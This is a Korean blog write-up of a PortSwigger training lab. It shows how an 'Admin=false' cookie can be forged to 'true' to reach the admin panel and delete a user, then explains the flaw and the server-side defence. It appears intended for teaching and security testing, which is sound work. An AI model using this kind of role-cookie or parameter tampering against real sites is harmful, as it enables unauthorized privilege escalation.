



+++
url = '/write-up/portswigger/access-control/write-up-portswigger---user-role-controlled-by-request-parameter/'
date = '2026-07-02T15:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - User role controlled by request parameter'
summary = "관리자 여부를 담은 Admin 쿠키를 false에서 true로 위조해 관리자 패널에 접근하는 수직 권한 상승 풀이"
toc = true
tags = ["Access Control", "Privilege Escalation", "Parameter Tampering", "Cookie", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [User role controlled by request parameter](https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter)

> 

관리자 패널이 `/admin` 경로에 존재하며, 위조 가능한 쿠키로 관리자를 식별한다. `carlos` 사용자를 삭제하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### Access Control 진단

문제에서 쿠키 위조가 가능하다고 명시했으므로, 실습 계정으로 로그인한 뒤 응답의 `Set-Cookie`를 확인한다.

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: Admin=false; Secure; HttpOnly
Set-Cookie: session=cdDdFqA1PRFrywEqzpI3UNHNd1zGnK3Y; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

세션 쿠키와 별개로 `Admin=false`라는 쿠키가 함께 내려온다. 이름과 값에서 이 쿠키가 관리자 여부를 판단하는 근거임이 드러난다. 서버가 이 값을 신뢰한다면, 값을 바꾸는 것만으로 역할을 바꿀 수 있다.

---

## 익스플로잇

`Admin` 쿠키 값을 `false`에서 `true`로 바꾸고 `/admin`에 접근한다.

```http
GET /admin HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: Admin=true; session=<session>
```



관리자 패널이 정상적으로 열린다. `carlos` 사용자를 삭제하면 문제가 해결된다.



---

## 정리

이 랩의 결함은 **역할 판단의 근거를 클라이언트가 통제할 수 있는 값에 둔 것**이다. `Admin` 쿠키는 브라우저에 저장되고 요청마다 클라이언트가 실어 보내는 값이므로, 서버 입장에서 이는 신뢰할 수 없는 입력이다. 그런데 서버는 이 값을 그대로 읽어 관리자 여부를 결정했다.

같은 계열의 결함은 쿠키뿐 아니라 히든 폼 필드, 쿼리 파라미터(`?admin=true`, `?role=1`)에서도 똑같이 나타난다. 공통점은 **권한이라는 서버의 상태를 요청이라는 클라이언트의 입력으로 표현했다**는 것이다. 요청은 언제든 조작될 수 있으므로, 권한을 여기에 실으면 조작 가능성을 함께 실은 셈이 된다.

진단에서는 로그인 직후 응답의 `Set-Cookie`와 이후 요청의 파라미터를 살펴 `admin`, `role`, `isAdmin`, `level` 같은 권한성 값이 있는지 확인하고, 있다면 값을 뒤집어(`false`→`true`, `1`→`2`) 서버가 이를 재검증하는지 본다. 재검증 없이 통과하면 이 랩과 같은 결함이다.

방어는 역할을 **서버 세션에만** 보관하고, 요청에 담긴 어떤 역할 표시도 신뢰하지 않는 것이다. 사용자의 권한은 인증된 세션에 연결된 서버 측 데이터로만 판단해야 한다. 파라미터·쿠키에 권한을 싣는 다른 형태와 판정 흐름은 [Access Control Playbook](/playbook/playbook-access-control-%EC%A7%84%EB%8B%A8-cheat-sheet/)에 정리했다.
